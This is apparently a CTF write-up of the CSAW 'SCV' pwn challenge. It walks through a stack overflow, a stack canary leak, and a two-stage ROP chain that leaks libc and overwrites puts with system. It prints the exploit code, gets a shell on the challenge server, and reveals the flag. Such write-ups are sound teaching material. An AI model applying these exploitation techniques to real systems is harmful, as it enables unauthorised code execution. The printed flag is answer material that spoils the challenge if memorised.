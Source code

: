 # SCV
## Pwn 100

#### shareef12

    SCV is too hungry to mine the minerals. Can you give him some food?

    nc pwn.chal.csaw.io 3764

This was fairly low point value pwnable. I expected it to be fairly straight
forward, but there were a few minor things that slowed down exploitation.
Stripped x86-64 binary presented a simple menu with three options.

    user@reversing:~/csaw/scv$ file scv
    scv: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
    linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
    BuildID[sha1]=8585d22b995d2e1ab76bd520f7826370df71e0b6, stripped
    user@reversing:~/csaw/scv$ ./scv
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>

The first option would read data into a buffer, the second would print the same
buffer back to you, and the third would simply return. Due to the simple
interface, seems like a pretty straight forward buffer overflow. Passing in a
large cyclic buffer seemed to cause it to flood my terminal with invalid input
messages. From here I started reversing statically.

Input from the user is obtained with a call to `read()` from stdin, with a size
of 0xf8 bytes. Fortunately for us, the destination buffer starts at `$rbp-0xb0`.

![read call](img/read_call.png)
![buffer size](img/buffer_size.png)

If we write a buffer of at least 0xb8 bytes, we should be able to control RIP
with space for 0x40 bytes of ROP chain. Let's try it.

    user@reversing:~/csaw/scv$ python -c "print 'a'*0xb8 + 'bbbbcccc'"
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
    user@reversing:~/csaw/scv$ ./scv
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>1
    -------------------------
    [*]SCV IS ALWAYS HUNGRY.....
    -------------------------
    [*]GIVE HIM SOME FOOD.......
    -------------------------
    >>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>3
    [*]BYE ~ TIME TO MINE MIENRALS...
    *** stack smashing detected ***: ./scv terminated
    Aborted (core dumped)

Oh no. Looks like there's a stack canary.

	user@reversing:~/csaw/scv$ checksec scv
	[*] '/home/user/csaw/scv/scv'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      No PIE (0x400000)

Since we can print our buffer, it shouldn't be hard to leak the canary value
though. All we have to do is provide enough input so that there are no null
bytes between the end of our buffer and the start of the canary. The canary is
at `$ebp-0x8` so if supply 0xa8 bytes, we should be able leak the canary value.

My initial attempt only printed the buffer. Examining the buffer in gdb showed
that the canary always started with a NULL byte. Writing an extra character
(0xa9 bytes total) allows us to leak the canary every time.

	user@reversing:~/csaw/scv$ python -c "print 'a'*0xa9"
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	user@reversing:~/csaw/scv$ ./scv
	-------------------------
	[*]SCV GOOD TO GO,SIR....
	-------------------------
	1.FEED SCV....
	2.REVIEW THE FOOD....
	3.MINE MINERALS....
	-------------------------
	>>1
	-------------------------
	[*]SCV IS ALWAYS HUNGRY.....
	-------------------------
	[*]GIVE HIM SOME FOOD.......
	-------------------------
	>>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	-------------------------
	[*]SCV GOOD TO GO,SIR....
	-------------------------
	1.FEED SCV....
	2.REVIEW THE FOOD....
	3.MINE MINERALS....
	-------------------------
	>>2
	-------------------------
	[*]REVIEW THE FOOD...........
	-------------------------
	[*]PLEASE TREAT HIM WELL.....
	-------------------------
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	��~�2�@@

Now that we can leak the canary, I wrote some code to parse it out and use it in
our overflow buffer so we pass the canary check.

```python
# Fill buffer with non-zero up until stack cookie
conn.recvuntil(">>")
feed_scv("a" * 0xa9)   # plus one (first char of the stack cookie is 0)

# Leak the stack cookie
log.info("Leaking stack cookie")
data = review_food()
cookie = "\x00" + data[0xa9:0xb0]
log.info("Stack cookie: " + cookie.encode("hex"))
```

Since this challenge involves remote exploitation, we can assume ASLR is on, so
we'll need some form of ROP to get code execution. Unfortunately, we only have
64 bytes to do this with (only 8 gadgets). Additionally, since this is x64
arguments are passed in registers making ROP a little harder. My initial plan
was to use read() to read in a second larger ROP chain into the data section and
pivot to it. This would allow us to use a ROP chain of arbitrary length and get
around the 64-byte restriction. However when the function returns, rdx was 0, and
I couldn't find a pop rdx gadget in the binary.

Instead of pursuing this further, I decided to try and leak the address to libc
so I could use that for gadgets instead. We can use puts() to read an address
from the GOT and use the provided copy of libc to calculate libc base. From
there, if we simply return back to the start of main(), we can restart the
program and exploit it again.

```python
# Build the stage0 payload
# Leak the addr of puts() from the GOT, then restart for stage 1
stage0 =  p64(SCV_POP_RDI_GADGET)
stage0 += p64(scv.got["puts"])
stage0 += p64(scv.plt["puts"])
stage0 += p64(SCV_MAIN) # Jump back to main
```

After leaking libc base, we calculate the address of system() and a `pop rdx`
gadget within libc. We then rop to `read(stdin, scv.got["puts"], 8)` to
overwrite puts() with the next 8 bytes from stdin. Follow this ROP chain with
yet another return to main(). We send the address of system after triggering the
chain to overwrite puts().

```
# Build the stage1 payload
# Overwrite puts() with system(), then restart for stage 2
stage1 =  p64(SCV_POP_RDI_GADGET)
stage1 += p64(0)        # stdin
stage1 += p64(pop_rsi)
stage1 += p64(scv.got["puts"])
stage1 += p64(pop_rdx)
stage1 += p64(8)
stage1 += p64(scv.plt["read"])
stage1 += p64(SCV_MAIN) # Jump back to main
```

Now that puts() is really system(), we can simply send `/bin/sh\x00` as our
buffer and view it to trigger a shell.

	user@reversing:~/csaw/scv$ ./solve.py
	[*] '/home/user/csaw/scv/scv'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      No PIE (0x400000)
	[*] '/home/user/csaw/scv/libc-2.23.so'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      PIE enabled
	[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
	[*] Leaking stack cookie
	[*] Stack cookie: 0014175537504b80
	[*] Sending stage 0 (0xd8 bytes)
	[*] Found libc base: 0x7f76a648c000
	[*] Found libc system(): 0x7f76a64d1390
	[*] Found libc "pop rsi" gadget: 0x7f76a64ac2e8
	[*] Found libc "pop rdx" gadget: 0x7f76a648db92
	[*] Sending stage 1 (0xf8 bytes)
	[*] Overwrote puts() with system()
	[*] Sending /bin/sh
	[*] Switching to interactive mode
	$ ls
	flag
	scv
	$ cat flag
	flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
	$
	[*] Interrupted
	[*] Closed connection to pwn.chal.csaw.io port 3764
